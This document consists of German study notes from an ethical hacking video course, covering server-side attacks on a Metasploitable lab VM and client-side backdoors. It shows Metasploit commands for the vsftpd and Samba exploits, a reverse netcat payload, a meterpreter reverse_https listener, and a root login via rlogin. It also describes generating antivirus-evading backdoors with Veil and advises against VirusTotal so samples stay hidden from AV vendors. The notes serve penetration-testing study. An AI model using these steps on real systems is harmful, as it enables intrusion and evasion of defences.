




# Gaining Access

Video 58

Jedes elektronische Gerät ist ein Computer (Betriebssystem, Installierte Programme, Konfigurationen, User).

Zwei Ansätze:

- Server Side: Nur IP Adresse bekannt. Ohne user interaction.
- Client Side: User Interaktion notwendig (trojan, social engineering)


# Metasploitable

Video 59

Download und installieren (mit VmWare)


# Server Side Attacks

## Information Gathering

- Default Passwords
- mis-configured services, e.g. "r" Service auf Ports 512, 513, 514
  - services sind dazu da um Zugriff auf den Computer zu erlauben
- Services die backdoors enthalten.
- code execution vulnerablities


## Video 61, 5:00

zenmap (nmap) auf metasploitable

512/tcp port: Rexec, Remote Process Execution [[wikipedia](https://de.wikipedia.org/wiki/Liste_der_standardisierten_Ports#300_%E2%80%A6_599)]

Google: "netkit-rsh rexecd"

`netkit-rsh` ist der Ubuntu Paketname. Verbindung mit `rsh-client` 

Unter Kali:

```sh
$ apt install rsh-client
$ rlogin --help
$ rlogin -l root <metasploitable-ip>
```

Keine Frage nach Passwort. Dann bekammt man eine root shell auf Metasploitable

```
id
pwd
ls
uname -a
```

D.h. root Kontrolle über den Zielrechner wegen Fehler in der Konfiguraiton (misconfiguration).


## Video 62 – backdoor

Nutzen eines backdoors (geheime Funktion in einem normalen Programm).

Google `vsftpd 2.3.4`

- [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

Google `vsftpd 2.3.4 exploit`

- [Rapid7 VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
  Rapid7: creator of metasploit, Seite beschreibt das exploit modul
- [CVE-2011-2523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523), [CVE=Common Vulnerabilities and Exposures](https://www.redhat.com/en/topics/security/what-is-cve)




Video 62, 4:28 – verwenden von metasploit


## Video 63 – Code Execution Vulnerability



- [Rapid7: Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)
- [exploit-db.com](https://www.exploit-db.com/exploits/16320)
- [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447)
- [Hintergründe der Schwachstelle](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)

Video 63, 1:57 – verwenden von metasploit

code execution vulnerability: Diese Schwachstelle erlaubt das Ausführen eines kleinen Programms, diese werden als payload bezeichnet. 

Welche payloads man mit einem gewählten exploit in metsploit verwenden kann sieht man mit:

```
msf exploit(usermap_script) > show payloads 
```

>  payloads are small pieces of code that will be executed on the target computer once the vulnerablity has been exploited. [Zaid]

- Bind payloads: Öffnen einen Port am Target Computer, dahinter ist ein Programm, z.B. shell. Verbindung geht vom Angriffs Computer aus.
- Reverse payloads: Starten ein Programm am Target und versuchen eine Verbindung mit dem Angriffs-Computer aufzubauen. Dies erlaubt das umgehen von Firewalls die meist nur ankommende Verbindungen blocken.

```
> set PAYLOAD cmd/unix/reverse_netcat
```

Das setzen der Payload bewirkt dass zusätzliche Optionen gesetzt werden können/müssen (in diesem Fall `LHOST`).

`LPORT` könnte auch auf 80 gesetzt werden, Vorteil dieser wird nicht gefiltert (sonst kein Internet surfen möglich).




## Video 64/65 – nexpose

Vulnerability Management Framework. Von Rapid7.

8 GB


# Client Side Attacks

Z.B. wenn 

- keine Server Side Attack Schwachstelle gefunden werden kann, oder 
- der Zielrechner nicht im Netz erreicht werden kann.

Bei diesen Angriffen muss der User etwas tun (File öffnen, ....)

Information Gathering ist sehr wichtig, man muss die Person kennen (z.B. welche Websites werden oft verwendet)

## Backdoor

Video 69

Mit Veil Framework

Um backdoors zu erzeugen die nicht von AV erkannt werden.

Muss installiert werden, ist ziemlich umfangreich.

Video 70

- Evasion: generate undetectable backdoors
- Ordnance: create the payloads (z.B. shell, download, ...)

Evasion:

- `list` zeigt alle payloads

Video 71

Evasion...

```
use 15
```




Zum Testen: virustotal: nicht verwenden weil die Ergebnisse mit AV Herstellern geteilt werden. Alternative: NoDistribute

Video 72

Port öffnen für die Backdoor `go/meterpreter/rev_https`, port 8080

Mit metasploit (gleiche Programmierer wie veil)

```
$ msfconsole
> use exploit/multi/handler
> show options
> set PAYLOAD windows/meterpreter/reverse_https
> set LHOST <local IP>
> set LPORT 8080
> exploit
```

Alle Optionen identisch zur generierten backdoor setzen.


Video 73 – Using A Basic Delivery Method To Test The Backdoor & Hack Windows 10
